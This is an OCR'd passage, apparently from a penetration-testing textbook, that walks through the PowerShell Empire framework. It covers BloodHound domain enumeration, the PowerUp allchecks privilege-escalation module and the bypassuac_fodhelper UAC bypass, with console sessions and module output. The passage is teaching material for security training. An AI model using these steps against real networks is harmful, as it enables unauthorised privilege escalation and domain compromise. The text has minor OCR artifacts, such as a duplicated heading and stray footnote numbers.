 usncreated : 12613
objectguid : 7bbdcd8c-e139-478c-86dd-abdef0f71d58
lastlogoff : 1/1/1601 1:00:00 AM
objectcategory : CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com
dscorepropagationdata : {2/19/2019 1:05:25 PM, 2/19/2019 12:56:22 PM, 1/1/1601 12:00:0
memberof : CN=Domain Admins,CN=Users,DC=corp,DC=com
...


 In addition to the enumeration tools in the PowerView subcategory, the situational_awareness category also includes a wide variety of network and port scanners.

 The Bloodhound module is especially noteworthy.
 
 It automates much of PowerView’s functionality,collecting all computers, users, and groups in the domain as well as all currently logged-in users.
 
 The output is stored in CSV files suitable for use with the backend BloodHound application,725 which uses graph theory726 to highlight often-overlooked and highly complex attack paths in an ActiveDirectory environment.
23.2.2 Credentials and Privilege Escalation

23.2.2 Credentials and Privilege Escalation

 The privesc category contains privilege escalation modules.
 
 One of the more interesting modulesin this group is powerup/all checks.
 
 727 It uses several techniques based on misconfigurations suchas unquoted service paths, improper permissions on service executables, and much more.

(Empire: powershell/situational_awareness/network/powerview/get_user) > usemodule powe
rshell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > execute
Job started: N459AD
[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.
...


 The bypassuac_fodhelper module is quite useful if we have access to a local administrator account.
 
 Depending on the local Windows version, this module can bypass UAC and launch a high-integrity PowerShell Empire agent:

(Empire: S2Y5XW1L) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > info
Name: Invoke-FodHelperBypass
 Module: powershell/privesc/bypassuac_fodhelper
 NeedsAdmin: False
 OpsecSafe: False
 Language: powershell
MinLanguageVersion: 2
 Background: True
 OutputExtension: None
Authors:
 Petr Medonos
Description:
 Bypasses UAC by performing an registry modification for
 FodHelper (based on https://winscripting.blog/2017/05/12
 /first-entry-welcome-and-uac-bypass/)
Comments:
 https://winscripting.blog/2017/05/12/first-entry-welcome-
 and-uac-bypass/
Options:
Name Required Value Description
---- -------- ------- -----------
Listener True Listener to use.